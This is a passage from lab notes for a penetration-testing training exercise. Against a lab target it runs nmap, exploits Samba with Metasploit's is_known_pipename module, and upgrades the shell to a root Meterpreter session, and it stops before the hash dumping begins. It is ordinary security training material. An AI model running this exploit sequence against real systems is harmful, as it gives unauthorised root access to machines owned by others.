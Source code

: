 

<details><summary>Reveal Flag: 🚩</summary></details>



------

## Lab 3 - Dumping Hashes

> 🔬 [Post Exploitation Lab II](https://www.attackdefense.com/challengedetails?cid=195)
>
> - Target IP: `192.252.196.3`
> - Metasploit **`post/linux/gather/`** credentials dumping modules
>

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.252.196.3
setg RHOST 192.252.196.3
workspace -a Linux_PostExp
db_nmap -sV 192.252.196.3
```

```bash
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

### Exploitation

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
options
run
```

```bash
pwd
	/tmp
```

```bash
# CTRL + Z to background the shell
sessions
```

- Upgrade the `shell cmd/unix` sessions to a `Meterpreter` session

```bash
sessions -u 1
sessions 2

getuid
	Server username: uid=0, gid=0, euid=0, egid=0
	# "root" user Meterpreter session
```
